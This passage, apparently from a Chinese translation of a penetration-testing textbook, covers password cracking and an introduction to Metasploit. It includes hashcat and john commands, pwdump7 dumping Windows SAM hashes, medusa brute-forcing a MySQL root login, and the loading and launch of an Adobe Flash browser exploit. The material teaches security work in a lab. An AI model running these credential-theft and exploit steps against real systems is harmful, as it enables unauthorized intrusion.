kali > hashcat -m 0 -a 0 -o passwords hashlist.txt /root/top10000passwords
```

# hashcat

是命令

- `-m 0` 指定我们要尝试破解的哈希类型（在本例中为 MD5）
- `-a 0` 指定字典攻击
- `-o passwords` 是密码的输出文件

136 | 页

```
G:\\Users\\OT\\Desktop>pwdump?.exe > passwordhashes.txt
Pwdump v7.1 - raw password extractor
Author: Andres Tarasco Acuna
url: http://www.514.es

G:\\Users\\OT\\Desktop>type passwordhashes.txt
Administrator:500:NO PASSWORD***************************:FC9D7C3A3A1E86F1BCC35CD887CB7
4D5:::
Guest::501:NO PASSWORD*********************:823893A8DA2CDAD6E1A414F43EBEDF58F?:::
OTHU::500:NO PASSWORD*********************:8846F7EE1EE8FB117A06DBDD83BE756C:::
user4::1001:NO PASSWORD*********************:A9FDF0838C4B75EBC75DC855DD74F0DA:::
```

`hashlist.txt` 是哈希值的输入文件。`/root/top10000passwords` 是字典的绝对路径和文件名。

## Windows 密码哈希

之前使用 `john the ripper` 时，我们只需从我们的 Kali 系统中获取密码即可。如果我们拥有 root 权限，这不成问题。在 Windows 中我们该如何做同样的事？

正如我在介绍中提到的，Windows 将其密码存储在：`c:\Windows\System32\config\SAM` 中。

每当进程需要密码时，该进程会访问一个具有系统管理员权限的动态链接库（DLL），并访问受保护的 SAM 文件。如果我们能够控制该 DLL 并获取对 SAM 文件的访问权限怎么办？

我们可以。该过程被称为 DLL 注入。我们获取一个新进程，将其注入到拥有 SAM 访问权限的进程中，然后提取密码哈希用于破解。有一个工具可以完成这项工作。

它叫做 `pwdump`。你可以在 https://www.openwall.com/passwords/windows-pwdump 下载 `pwdump7`。让我们在我们的 Windows 7 系统上下载并安装它，看看我们是否可以从那里提取密码哈希。

将 `pwdump7` 及其相关的 `.dll` 文件移动到一个你感觉舒适的目录。我把它放在了我的桌面上，即 `c:\users\OTW\Desktop`。现在在你的 Windows 7 系统上打开命令提示符（运行 `cmd`）并以管理员身份运行。

导航到包含你的 `pwdump7` 的目录，简单地执行它，并将其输出重定向到文件，例如密码哈希文件：

```
C:\Users\OTW\Desktop pwdump7.exe > passwordhashes.txt
```

现在，在命令行中打开该文件：

```
C:\User\OTW\Desktop\pwdump7.exe>type passwordhashes.txt
```

137 | 页


你应该能看到用户和密码哈希。

接下来，将 `passwordhashes.txt` 文件复制到闪存驱动。


然后，将闪存驱动连接到 Kali 系统，并将文件复制到你的 Kali 系统的桌面。现在我们可以准备好了

使用 `john` 或 `hashcat` 来破解这些密码。让我们用 `john` 来演示。

```
kali > john -format=LM --wordlist=/root/top1000passwords -rules /root/Desktop/passwordhashes.txt
```

注意，这里使用的是 `format=LM`。这是告知 `john`，密码哈希值采用 LM（LanMan，该格式最早由 IBM 在 1980 年代开发）格式。

## 远程密码破解

对远程系统进行在线密码破解与离线密码破解是完全不同的两回事。

虽然两者都包含猜测密码或暴力破解的过程，但在远程系统中，我们很可能会遇到锁定机制。换言之，在多次尝试失败后，账户将被锁定。

这限制了你能够尝试的次数。在某些系统中，只需三次尝试就会触发锁定，而在其他系统中，可能需要数千次尝试（在某些情况下，存在绕过锁定的方法）。关键的要点在于，在线破解密码时，我们往往不像离线破解那样拥有无限次的尝试机会。

在线密码破解的另一个关键问题是，用户名和密码的测试（猜测）必须以应用程序所期望的格式发送。每个应用程序在处理用户名和密码请求时使用的格式都略有不同。在某些情况下，我们可能需要捕获并分析该格式，以便正确格式化我们的请求（参见第 12 章，Web 黑客技术）。

在密码破解的这一章节中，我们将使用一个轻量级的命令行密码破解工具，名为 `medusa`。`Medusa` 已内置于我们的 Kali 系统中，因此无需下载或安装任何内容。要查看 `medusa` 的帮助屏幕，只需输入：

```
kali > medusa -h
```

```text
root@kali-2019:~# medusa -h
Medusa v2.2 [http://www.oofoo.net] (C) J0hn-Kun / Oofoo Networks <jmk@ofooo.net>
medusa: option requires an argument -- 'h'
CRITICAL: Unknown error processing command-line options.
ALERT: Host information must be supplied.

Syntax: Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
-h [TEXT]      : Target hostname or IP address
-H [FILE]      : File containing target hostnames or IP addresses
-u [TEXT]      : Username to test
-U [FILE]      : File containing usernames to test
-p [TEXT]      : Password to test
-P [FILE]      : File containing passwords to test
-C [FILE]      : File containing combo passwords. See README for more information.
-O [FILE]      : File to append log information to
-e [n/s/ns]    : Additional password checks ([n] No Password, [s] Password = Username)
-M [TEXT]      : Name of the module to execute (Without the .mod extension)
-m [TEXT]      : Parameter to pass to the module. This can be passed multiple times with a
                 different parameter each time and they will all be sent to the module (i.e.
                 -m Param1 -m Param2, etc.)
-d             : Dump all known modules
-n [NUM]       : Use for non-default TCP port number
-S             : Enable SSL
-g [NUM]       : Give up after trying to connect for NUM seconds (default 3)
-r [NUM]       : Sleep NUM seconds between retry attempts (default 3)
-R [NUM]       : Attempt NUM retries before giving up. The total number of attempts will be NUM + 1.
-c [NUM]       : Time to wait in usec to verify socket is available (default 500 usec).
-T [NUM]       : Total number of logins to be tested concurrently
-t [NUM]       : Total number of hosts to be tested concurrently
-L             : Parallelize logins using one username per thread. The default is to process
                 the entire username before proceeding.
-f             : Stop scanning host after first valid username/password found.
-F             : Stop audit after first valid username/password found on any host.
-b             : Suppress startup banner
-q             : Display module's usage information
-v [NUM]       : Verboso level [0 - 6 (more)]
-W [NUM]       : Error debug level [0 - 10 (more)]
-V             : Display version
-Z [TEXT]      : Resume scan based on map of previous scan
```

如前所述，`medusa` 拥有众多选项，但我们可以将 `medusa` 的语法简化为：

```
medusa -h <host IP> -u <username> -P <password file> -M <module>
```

`medusa` 的模块使其能够以应用程序可接受的格式呈现用户名和密码。要查看 `medusa` 中的应用模块，只需输入：

```
kali > medusa -d
```


```
root@kali-2019:~# medusa -d
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

Available modules in ".":

Available modules in "/usr/lib/x86_64-linux-gnu/medusa/modules":

+ cvs.mod : Brute force module for CVS sessions : version 2.0
+ ftp.mod : Brute force module for FTP/FTPS sessions : version 2.1
+ http.mod : Brute force module for HTTP : version 2.1
+ imap.mod : Brute force module for IMAP sessions : version 2.0
+ mssql.mod : Brute force module for MS-SQL sessions : version 2.0
+ mysql.mod : Brute force module for MySQL sessions : version 2.0
+ nntp.mod : Brute force module for NNTP sessions : version 2.0
+ pcanywhere.mod : Brute force module for PCAnywhere sessions : version 2.0
+ pop3.mod : Brute force module for POP3 sessions : version 2.0
+ postgres.mod : Brute force module for PostgreSQL sessions : version 2.0
+ rexec.mod : Brute force module for REXEC sessions : version 2.0
+ rlogin.mod : Brute force module for RLOGIN sessions : version 2.0
+ rsh.mod : Brute force module for RSH sessions : version 2.0
+ smbnt.mod : Brute force module for SMB (LW/NTLM/LMW2/NTLMw2) sessions : version 2.1
+ smtp-vrfy.mod : Brute force module for verifying SMTP accounts (VRFY/EXPN/RCPT TO) : version 2.1
+ smtp.mod : Brute force module for SMTP Authentication with TLS : version 2.0
+ snmp.mod : Brute force module for SNMP Community Strings : version 2.1
+ ssh.mod : Brute force module for SSH v2 sessions : version 2.1
+ svn.mod : Brute force module for Subversion sessions : version 2.1
+ telnet.mod : Brute force module for Telnet sessions : version 2.0
+ vmauthd.mod : Brute force module for the VMare Authentication Daemon : version 2.0
+ vnc.mod : Brute force module for VNC sessions : version 2.1
+ web-form.mod : Brute force module for web forms : version 2.1
+ wrapper.mod : Generic Wrapper Module : version 2.0
```

如你所见，`medusa` 有十八个应用模块。

让我们尝试使用 `medusa` 来破解我们 Windows 7 系统上 MySQL 数据库的 root 用户密码。

为此，我们需要创建以下命令：

```
kali > medusa -h 192.168.0.114 -u root -P /root/top10000passwords -M mysql
```

其中：

- `-h 192.168.0.114` 是我们装有 MySQL 的 Windows 7 系统的 IP 地址
- `-u root` 是我们要破解的用户
- `-P /root/top10000passwords` 是我们的密码列表路径
- `-M mysql` 是我们想要使用的模块

当我们按下回车键时，`medusa` 开始逐一尝试密码以登录 MySQL。它会持续进行这些尝试，直到成功找到正确的密码或遍历完列表为止。请耐心！即使只有 10,000 个密码，这个过程也可能需要几个小时。


## 摘要

密码破解通常是最快且最有效控制目标系统的方式。

当目标使用简单密码时，这一点尤为明显。在开始密码破解之前制定`策略`至关重要，因为不同的操作系统和应用程序需要不同的方法。如果所有策略都失败，攻击者只能选择暴力破解，而这可能非常耗时且耗费资源。

如果你拥有运行中系统的物理访问权限，或者已经攻陷了该系统，`mimikatz` 工具可能是一个选项（`mimikatz` 曾被用于 Blackenergy3、Wannacry 和 NotPetya 攻击）。该工具可以从运行中的系统内存中提取密码。有关使用 `mimikatz` 的更多信息，请参阅第 11 章“后渗透”或访问 https://www.hackers-arise.com/single-post/2016/09/13/Mr-Robot-Hacks-How-Angela-Stole-Her-Bosss-Password-Using-mimikatz。

## 练习

- 1. 在你的 Kali Linux 中创建五个复杂度递增的新账户，然后尝试使用 `john the ripper` 破解它们。
- 2. 使用 `crunch`、`cewl` 和 `cupp` 为自己创建自定义密码列表。
- 3. 从你的 Windows 7 系统中提取本地用户密码哈希值。
- 4. 使用 `medusa` 破解你的 Windows 7 系统中 MySQL 应用程序的密码。


## 使用 Metasploit 5 进行漏洞利用

> *无论对手多么强大，都存在弱点。找到弱点并利用它。*
>
> *大师 OTW*

`Metasploit` 是全球领先的漏洞利用/黑客框架。它在一定程度上被几乎每一位黑客/渗透测试人员所使用。因此，如果你希望进入并在这一激动人心的领域取得成功，你就需要掌握它。

### 什么是 Metasploit？

`Metasploit` 是一个标准化的框架，主要用于进攻性安全或渗透测试（在坏人之前发现漏洞的合法黑客行为）。在 `Metasploit` 出现之前，各种程序员使用各种语言针对各种操作系统开发漏洞利用代码和 shellcode。渗透测试人员必须依赖开发人员的可靠性，确保代码中不包含恶意软件，并了解开发人员意图让漏洞利用/shellcode/工具如何运作。随着 `Metasploit` 的出现，渗透测试人员拥有一个标准化的框架可以依靠，其中的工具工作方式相似，且都用同一种语言编写，使事情变得简单且容易得多。

最初由 HD Moore 作为开源项目开发，Rapid7 收购了 `Metasploit`（Rapid7 还拥有一款漏洞扫描器 Nexpose）。尽管最初作为开源项目开发，但 Rapid7 现在开发了 `Metasploit` 的专业版（Pro 版），增加了更多“锦上添花的功能”（这些功能可以节省时间和金钱）。幸运的是，开源、社区版的 `Metasploit` 仍然对我们这些没有数千美元来购买专业版的人来说可用（如果你是专业的渗透测试人员，使用专业版带来的效率提升和时间节省使其成为一项良好的投资）。

**Metasploit 界面**

`Metasploit` 拥有多种界面，包括：

- `msfconsole` - 一个类似交互式命令行的界面
- `msfcli` - 一个标准的 Linux 命令行界面
- `Armitage` - 基于 GUI 的第三方应用程序
- `msfweb` - 基于浏览器的界面

毫无疑问，使用 `Metasploit` 最常见的方式是通过 `Metasploit` 的交互式 shell，`msfconsole`。在本 `Metasploit` 章节中，我们将使用 `msfconsole`。


近年来，`Metasploit`集成了额外的工具，使其不仅仅是一个漏洞利用框架。诸如`nmap`、`Nessus`和`Nexpose`等工具现已集成到`Metasploit`中，使得从端口扫描、漏洞扫描、漏洞利用到后渗透利用的整个流程都可以在一个单一工具中完成。此外，`Metasploit`现在集成了一个`postgresql`数据库（`postgresql`是一个流行的企业级开源数据库管理系统），用于存储从你的扫描和利用中收集的数据。

## 开始使用 Metasploit

在启动`Metasploit`之前，最好在后台启动`postgresql`数据库。这使得`Metasploit`能够以熟悉的关系型数据库模型存储数据。这使你可以轻松且无缝地访问你的数据。`Metasploit`在没有`postgresql`的情况下也能工作，但该数据库使`Metasploit`能够运行更快的搜索并存储你在扫描和利用过程中收集的信息。

```
systemctl start postgresql
```

现在，是时候开始使用`Metasploit`了。你可以从 GUI 应用程序 -> 漏洞利用工具 -> `msfconsole`启动它，或者通过从终端输入 `msfconsole` 来启动：

```
msfconsole
```

几秒钟内，你会看到熟悉的——有时略显古怪——`Metasploit`启动屏幕（你的可能看起来不同）。如果你一直使用的是`Metasploit` 4，你会立即注意到`Metasploit` 5在欢迎速度上的提升。

注意命令提示符 `msf5>`（如果你使用的是旧版本的`Metasploit`，你的命令提示符将是没有 5 的 `msf >`）。这表明你现在处于`Metasploit`的交互模式，他们称之为`msfconsole`。

在我们开始之前，先谈一下术语。在`Metasploit`的术语中，`exploit`（漏洞利用）是一个利用系统或应用程序漏洞的模块。它打开一扇门或一扇窗。随后，`exploit`通常尝试在目标系统上放置一个`payload`（根套件、监听器）。这个`payload`可以是一个简单的命令 shell 或功能强大的 `Meterpreter`。在其他环境中，这些`payload`可能被称为监听器或根套件。对于初学者来说，`exploit`和`payload`模块是最重要的，但我们将在本章稍后使用`auxiliary`模块，并在第 11 章（后渗透利用）中使用`post`模块。

`Metasploit`是以“模块”设计的。这些模块分为七（7）种类型：

1. `exploits`
2. `payloads`
3. `auxiliary`
4. `nops`
5. `post`
6. `encoders`
7. `evasion`（`Metasploit` 5 新增）

**关键字**

从这个`msfconsole`，你可以输入系统命令（`ifconfig`、`ping`等）以及`Metasploit`的关键字。要查看这些关键字，请在`msf5>`提示符处输入 `help`；`msf5> help`

尽管`Metasploit`是一个非常强大的漏洞利用框架，但只需少数几个关键字就可以让你开始进行黑客攻击。

让我们来看看其中一些关键字命令。

`use`命令用于加载模块。因此，例如，如果我想加载一个利用 Adobe Flash 中特定漏洞的`exploit`，我可能会`use`

`exploit/windows/browser/adobe_flash_avm2`模块（这是一个利用 Adobe Flash 插件众多漏洞之一的`exploit`）。

要加载此模块，我会输入；`msf > use exploit/windows/browser/adobe_flash_avm2`

如上所示，当`Metasploit`成功加载模块时，它会以模块类型（`exploit`）和缩写模块名的红色字体作为响应。

`msf> show`

加载模块后，`show`命令对于收集有关模块的更多信息非常有用。我最常用的三个 `show`命令是 `show options`、`show payloads`和 `show targets`。

让我们首先看看 `show payloads`。

`msf > show payloads`

此命令在选择你的`exploit`之后使用时，会显示与你选择的`exploit`兼容的所有`payloads`（并非所有`payloads`都能与每个`exploit`配合使用。在这种情况下，它显示有超过 160 个`payloads`可以与该`exploit`配合使用）。如果你在选择`exploit`之前运行此命令

### 核心命令

| 命令 | 描述 |
|---------|-------------|
| ? | 帮助菜单 |
| banner | 显示一个很酷的 Metasploit 横幅 |
| cd | 更改当前工作目录 |
| color | 切换颜色 |
| connect | 与主机通信 |
| exit | 退出控制台 |
| get | 获取上下文特定变量的值 |
| getg | 获取全局变量的值 |
| grep | 对另一个命令的输出进行 grep |
| help | 帮助菜单 |
| history | 显示命令历史 |
| load | 加载框架插件 |
| quit | 退出控制台 |
| repeat | 重复执行一组命令 |
| route | 通过会话路由流量 |
| save | 保存活动数据存储 |
| sessions | 转储会话列表并显示有关会话的信息 |
| set | 将上下文特定变量设置为某个值 |
| setg | 将全局变量设置为某个值 |
| sleep | 不执行任何操作指定的秒数 |
| spool | 将控制台输出写入文件以及屏幕 |
| threads | 查看和操作后台线程 |
| unload | 卸载框架插件 |
| unset | 取消设置一个或多个上下文特定变量 |
| unsetg | 取消设置一个或多个全局变量 |
| version | 显示框架和控制台库的版本号 |

### 模块命令

| 命令 | 描述 |
|---------|-------------|
| advanced | 显示一个或多个模块的高级选项 |
| back | 从当前上下文返回 |
| info | 显示一个或多个模块的信息 |
| loadpath | 搜索路径并从中加载模块 |
| options | 显示全局选项或一个或多个模块的选项 |
| popm | 从模块栈中弹出最新的模块并使其处于活动状态 |
| previous | 将之前加载的模块设置为当前模块 |
| pushm | 将活动的模块或模块列表推送到模块栈 |
| reload_all | 从所有定义的模块路径重新加载所有模块 |
| search | 搜索模块名称和描述 |
| show | 显示给定类型的模块或所有模块 |
| use | 通过名称或搜索词/索引与模块交互 |

```
msf exploit(windows/browser/adobe_flash_avm2) > show options
Module options (exploit/windows/browser/adobe_flash_avm2):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Meters     false                        Allow the browser to retry the module
    SRVHOST    0.0.0.0      yes         The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080         yes         The local port to listen on.
    SSL        false                        Negotiate SSL for incoming connections
    SSLCERT    no         Path to a custom SSL certificate (default is randomly generated)
    URIPATH    no         The URI to use for this exploit (default is /random)

Exploit target:
   Id  Name
   --  ----
   0   Automatic
```


```
msf> exploit(windows/browser/adobe_flash_avm2) > show targets
Exploit targets:

    Id  Name
    --  ----
    0   Automatic
```

……利用该模块，它会显示**所有**载荷，这是一个**非常**长的列表（超过 500 个）。

正如你在上面的截图中所见，`show payloads` 命令列出了所有与该利用模块兼容的载荷。

`msf > show options`

此命令在运行利用模块时也非常有用。它会显示运行该模块前需要设置的所有选项（变量）。这些选项包括 IP 地址、URI 路径、端口号等。

在大多数利用模块中，你会看到以下选项（变量）。

- `RHOSTS` - 这是远程主机或目标 IP（在 Metasploit 4 中为 `RHOST`）
- `LHOST` - 这是本地主机或攻击者 IP
- `RPORT` - 这是远程端口或目标端口
- `LPORT` - 这是本地端口或攻击者端口

所有这些都可以使用 `SET` 命令来设置，后面跟着变量名（例如 `RHOST`）和值，例如：`msf5 > SET RHOST 192.168.1.101`

较少使用的命令是“`show targets`”。每个利用模块都有一个它能工作的目标列表。通过使用“`show targets`”命令，我们可以获取这些目标的列表。在这种情况下，目标选择是自动的，但某些利用模块拥有多达 100 个不同的目标，成功往往取决于你选择了正确的那个。这些目标可以由目标操作系统、服务包、语言以及其他因素定义。

`msf5 > show targets`


# `msf5 > info`

`info` 命令很简单。当你在选择模块之后输入它时，它会显示该模块的关键信息。

如果你往下滚动一点，你可以看到更多信息，包括需要设置的选项、载荷空间的大小、模块的描述以及关于它所利用漏洞的参考链接。

我通常在选定利用模块后运行此命令。它帮我在使用之前了解利用模块的关键特性。

```
msf5 > set
```

此命令用于设置你所选模块中的选项。例如，如果我们回顾上面的 `show options` 命令，我们可以看到许多必须设置的选项，例如 `URIPATH`, `SVRHOST` 和 `SVRPORT`。我们可以使用 `set` 命令设置这些变量中的任意一个，例如：`msf5 > set SRVPORT 80`

这将默认的 `SVRPORT`（服务器端口）从 8080 更改为 80。

```
msf5 > unset
```

正如你可能预期的那样，此命令取消设置之前已设置的选项。例如：`msf5 > unset SRVPORT`

如图所示，我们首先将 `SRVPORT` 变量设置为 80，然后取消设置它。随后它恢复为默认值 8080，这可以在我们再次输入 `show options` 时看到。

`msf5 > exploit`

一旦我们加载了利用模块并设置了所有必要的选项，最后的操作是“`exploit`”。这将利用代码发送到目标系统，如果成功，则安装载荷。

利用过程开始并以后台作业运行，在 4444 端口上有一个反向处理器。然后该利用模块在主机 0.0.0.0 的 80 端口上启动了一个 Web 服务器，并带有随机生成的 URL（F5pmyl9gCHVGw90）。我们可以通过使用 `set` 命令修改 `URIPATH` 变量来选择特定的 URL 并设置它。

```
msf5 > back
```

我们可以使用 `back` 命令将我们的操作过程“后退”一步。例如，如果你决定不想使用 `adobe/flash/avm2` 利用模块，可以输入“`back`”，它将移除已加载的利用模块。

```
msf5 > exit
```

`exit` 命令，正如你所预期的那样，会让我们退出 `msfconsole`，回到 BASH 命令 shell。

注意，在这种情况下，它停止了我们在该利用模块中创建的 web 服务器，并让我们返回到 BASH shell 中的 Kali 命令提示符。

# 查找合适模块的策略

作为 Metasploit 的新手，“`search`”命令可能是最实用的。当 Metasploit 还很小且较新时，找到你需要的正确模块相对容易。现在，随着拥有超过 3000 个模块，找到恰到好处的模块可能会耗时且困难。Rapid7 从第 4 版开始添加了搜索功能，它已成为节省时间和生命的工具。对于初学者想要有效地使用 Metasploit，理解搜索功能至关重要。

```
msf5 > search type:exploit platform:windows flash
匹配模块
===========
# 名称 披露日期 排名 检查 描述
0 exploit/multi/browser/flash_backing_text_uif 2015-07-00 优秀 否 Adobe Flash Player 背层文本 UIF
1 exploit/multi/browser/flash_heimisser_bof 2015-06-23 优秀 否 Adobe Flash Player NellyPlayer 音频解码缓冲区溢出
...
```

`msf5 > search`

虽然你可以使用搜索功能在模块名称中搜索关键词，但这种方法并不总是高效的，因为它通常会返回一个非常大的结果集。

为了使搜索更具体，你可以使用以下语法。

- `platform` - 这是该模块针对的操作系统
- `type` - 这是模块的类型。例如，`type:exploit`
- `name` 或 `keyword` - 模块的名称或其描述中的关键词

使用 `search` 的语法是关键字；后跟冒号；然后是值，例如：`msf5 > search type:exploit`

例如，如果你正在寻找一个用于在 Windows（平台）上利用 Adobe Flash（关键词）的模块（类型），你可以通过输入以下命令显示所有相关的利用模块：`msf5 > search type:exploit platform:windows flash`

如上所示，Metasploit 在其数据库中搜索了针对 `Windows` 平台的 `exploits` 且包含关键词“`flash`”的模块，并找到并显示了全部 30 个。

虽然这并不是一份详尽的 Metasploit 命令列表，但仅凭这些命令，你应该能够执行 Metasploit 中大多数功能。当课程中需要其他命令时，我会花几分钟介绍它，但目前你可能只需要这些。

# Metasploit 目录结构


```
root@kali-2019:~# cd /usr/share/metasploit-framework
root@kali-2019:/usr/share/metasploit-framework# ls -l
total 148
drwxr-xr-x  4 root root 4096 Jun 19 15:13 app
drwxr-xr-x  3 root root 4096 Jul 11 09:31 config
drwxr-xr-x 22 root root 4096 Jul 11 09:31 data
drwxr-xr-x  3 root root 4096 Jul 11 09:31 db
lrwxrwxrwx  1 root root   27 Jun 19 15:15 documentation -> ../doc/metasploit-framework
drwxr-xr-x  1 root root 1235 Jul  2 15:55 Gemfile
-rw-r--r--  1 root root 10153 Jul  5 03:18 Gemfile.lock
drwxr-xr-x 15 root root 4096 Jul 11 09:31 lib
-rw-r--r--  1 root root  8844 Jul  5 03:18 metasploit-framework.gemspec
drwxr-xr-x  9 root root 4096 Jun 19 15:14 modules
drwxr-xr-x  1 root root  1263 Jul  5 03:18 msfconsole
drwxr-xr-x  1 root root  2813 Jul  5 03:18 msf
drwxr-xr-x  1 root root  5326 Jul  5 03:18 msfdb
-rw-r--r--  1 root root   635 Jul  5 03:18 msf-json-rpc.ru
drwxr-xr-x  1 root root  2229 Jul  5 03:18 msfrpc
drwxr-xr-x  1 root root  9677 Jul  5 03:18 msfrpcd
drwxr-xr-x  1 root root   166 Jul  5 03:18 msfupdate
drwxr-xr-x  1 root root 13069 Jul  5 03:18 msfvenom
-rw-r--r--  1 root root   551 Jul  5 03:18 msf-ws.ru
drwxr-xr-x  2 root root 4096 Jul 11 09:31 plugins
drwxr-xr-x  1 root root  1299 Jul  2 15:55 Rakefile
drwxr-xr-x  1 root root   876 Jul  5 03:18 ruby
drwxr-xr-x  1 root root  1470 Jul  5 03:18 script-exploit
drwxr-xr-x  1 root root   141 Jul  5 03:18 script-password
drwxr-xr-x  1 root root   138 Jul  5 03:18 script-recon
drwxr-xr-x  6 root root 4096 Jun 19 15:14 scripts
drwxr-xr-x 11 root root 4096 Jun 19 15:14 tools
drwxr-xr-x  3 root root 4096 Jun 19 15:14 vendor
root@kali-2019:/usr/share/metasploit-framework#
```

当我刚开始使用 Metasploit 时，我发现它相当晦涩且难以解读。它就像一个黑盒。只有当我熟悉了交互式界面 `msfconsole` 背后的目录结构后，我才开始窥探这个黑盒内部，顿悟豁然开朗！我将尝试在这里点亮同样的明灯，希望它能帮助你更好地理解 Metasploit。

让我们开始通过打开终端并导航到 `/usr/share/metasploit-framework` 目录来查看 Metasploit 的内部。

```
kali > cd /usr/share/metasploit-framework kali > ls -l
```

现在，将目录更改为 `modules` 目录。

```
kali > cd modules
root@kali-2019:/usr/share/metasploit-framework# cd modules
root@kali-2019:/usr/share/metasploit-framework/modules# ls -l
total 28
drwxr-xr-x 22 root root 4096 Jul 11 09:31 auxiliary
drwxr-xr-x 12 root root 4096 Jun 19 15:14 encoders
drwxr-xr-x 3 root root 4096 Jun 19 15:14 evasion
drwxr-xr-x 21 root root 4096 Jul 11 09:31 exploits
drwxr-xr-x 11 root root 4096 Jun 19 15:14 nops
drwxr-xr-x 5 root root 4096 Jun 19 15:14 payloads
drwxr-xr-x 14 root root 4096 Jun 19 15:14 post
root@kali-2019:/usr/share/metasploit-framework/modules#
```

## 探索 Metasploit 模块结构

```bash
root@kali-2019:/usr/share/metasploit-framework/modules# cd exploits
root@kali-2019:/usr/share/metasploit-framework/modules/exploits# ls -l
total 80
drwxr-xr-x 3 root root  4096 Jul 11 09:31 aix
drwxr-xr-x 6 root root  4096 Jun 19 15:14 android
drwxr-xr-x 5 root root  4096 Jun 19 15:14 apple_ios
drwxr-xr-x 3 root root  4096 Jun 19 15:14 bsdi
drwxr-xr-x 3 root root  4096 Jun 19 15:14 dialup
-rw-r--r-- 1 root root  2698 Jul  2 15:55 example.rb
drwxr-xr-x 3 root root  4096 Jun 19 15:14 firefox
drwxr-xr-x 9 root root  4096 Jun 19 15:14 freebsd
drwxr-xr-x 3 root root  4096 Jun 19 15:14 hpx
drwxr-xr-x 21 root root  4096 Jun 19 15:14 linux
drwxr-xr-x 3 root root  4096 Jun 19 15:14 mainframe
drwxr-xr-x 26 root root  4096 Jul 11 09:31 multi
drwxr-xr-x 4 root root  4096 Jun 19 15:14 netware
drwxr-xr-x 13 root root  4096 Jun 19 15:14 osx
drwxr-xr-x 4 root root  4096 Jun 19 15:14 qnx
drwxr-xr-x 8 root root  4096 Jun 19 15:14 solaris
drwxr-xr-x 14 root root  4096 Jul 11 09:31 unix
drwxr-xr-x 51 root root  4096 Jul 11 09:30 windows
```

正如你所见，模块中包含我们之前看到的七种类型的模块。我们可以通过切换到 `exploits` 子目录，然后是 `windows` 子目录，深入探索得更细致。

```bash
kali > cd exploits
kali > ls -l
```

现在我们可以看到，`exploits` 被分类到特定平台的目录中（通常，平台等同于操作系统，但有少数例外，如 `firefox`、`netware` 等）。

如果我们希望利用一个 Windows 系统，我们需要一个 Windows 利用模块，因此让我们导航到该子目录。

```bash
kali > cd windows
kali > ls -l
```


```bash
root@kali-2019:/usr/share/metasploit-framework/modules/exploits# cd windows
root@kali-2019:/usr/share/metasploit-framework/modules/exploits/windows# ls -l
total 328
drwxr-xr-x 2 root root  4096 Jul 11 09:31 antivirus
drwxr-xr-x 2 root root  4096 Jul 11 09:31 arkeia
drwxr-xr-x 2 root root  4096 Jul 11 09:31 backdoor
drwxr-xr-x 2 root root  4096 Jul 11 09:31 backupexec
drwxr-xr-x 2 root root  4096 Jul 11 09:31 brightstor
drwxr-xr-x 2 root root 45056 Jul 11 09:31 browser
drwxr-xr-x 2 root root  4096 Jul 11 09:31 deepcr
drwxr-xr-x 2 root root  4096 Jul 11 09:31 email
drwxr-xr-x 2 root root  4096 Jul 11 09:31 else
drwxr-xr-x 2 root root 36864 Jul 11 09:31 fileformat
drwxr-xr-x 2 root root  4096 Jul 11 09:31 firewall
drwxr-xr-x 2 root root 12288 Jul 11 09:31 ftp
drwxr-xr-x 2 root root  4096 Jul 11 09:31 games
drwxr-xr-x 2 root root 32768 Jul 11 09:31 http
drwxr-xr-x 2 root root  4096 Jul 11 09:31 ibm
drwxr-xr-x 2 root root  4096 Jul 11 09:31 iis
drwxr-xr-x 2 root root  4096 Jul 11 09:31 imap
drwxr-xr-x 2 root root  4096 Jul 11 09:31 isapi
drwxr-xr-x 2 root root  4096 Jul 11 09:31 license
drwxr-xr-x 2 root root 12288 Jul 11 09:31 local
drwxr-xr-x 2 root root  4096 Jul 11 09:31 lotus
drwxr-xr-x 2 root root  4096 Jul 11 09:31 lpd
drwxr-xr-x 2 root root 20480 Jul 11 09:31 misc
drwxr-xr-x 2 root root  4096 Jul 11 09:31 mmsp
drwxr-xr-x 2 root root  4096 Jul 11 09:31 motorola
drwxr-xr-x 2 root root  4096 Jul 11 09:31 mssql
drwxr-xr-x 2 root root  4096 Jul 11 09:31 mysql
drwxr-xr-x 2 root root  4096 Jul 11 09:31 nfs
drwxr-xr-x 2 root root  4096 Jul 11 09:31 nntp
drwxr-xr-x 2 root root  4096 Jul 11 09:31 novell
drwxr-xr-x 2 root root  4096 Jul 11 09:31 nuuo
drwxr-xr-x 2 root root  4096 Jul 11 09:31 oracle
drwxr-xr-x 2 root root  4096 Jul 11 09:31 pop3
drwxr-xr-x 2 root root  4096 Jul 11 09:31 postgres
drwxr-xr-x 2 root root  4096 Jul 11 09:31 proxy
drwxr-xr-x 2 root root  4096 Jul 11 09:31 scada
drwxr-xr-x 2 root root  4096 Jul 11 09:31 sip
drwxr-xr-x 2 root root  4096 Jul 11 09:31 smb
drwxr-xr-x 2 root root  4096 Jul 11 09:31 smtp
drwxr-xr-x 2 root root  4096 Jul 11 09:31 ssh
drwxr-xr-x 2 root root  4096 Jul 11 09:31 sssl
drwxr-xr-x 2 root root  4096 Jul 11 09:31 telnet
drwxr-xr-x 2 root root  4096 Jul 11 09:31 tftp
drwxr-xr-x 2 root root  4096 Jul 11 09:31 uncenter
drwxr-xr-x 2 root root  4096 Jul 11 09:31 vnc
drwxr-xr-x 2 root root  4096 Jul 11 09:31 vpn
drwxr-xr-x 2 root root  4096 Jul 11 09:31 winrm
drwxr-xr-x 2 root root  4096 Jul 11 09:31 wins
```

你可以看到，这里有许多目录，从`antivirus`到`wins`。

最后，让我们看一下`smb`目录的内部：

```bash
kali > cd smb
kali > ls -l
```


```bash
root@kali:~$ cd /usr/share/metasploit-framework/modules/exploits/windows/smb
root@kali:~$ ls -l
total 312
-rw-r--r-- 1 root root  1739 Jul  2 15:55 generic_smb_dll_injection.rb
-rw-r--r-- 1 root root  2707 Jul  2 15:55 group_policy_startup.rb
-rw-r--r-- 1 root root  3346 Jul  2 15:55 ipp_pipe_exec.rb
-rw-r--r-- 1 root root  2854 Jul  2 15:55 ms03_netapi.rb
-rw-r--r-- 1 root root  8105 Jul  2 15:55 ms04_007_killbill.rb
-rw-r--r-- 1 root root  4809 Jul  2 15:55 ms04_011_lsass.rb
-rw-r--r-- 1 root root  2659 Jul  2 15:55 ms04_031_netdde.rb
-rw-r--r-- 1 root root 18230 Jul  2 15:55 ms05_039_pnp.rb
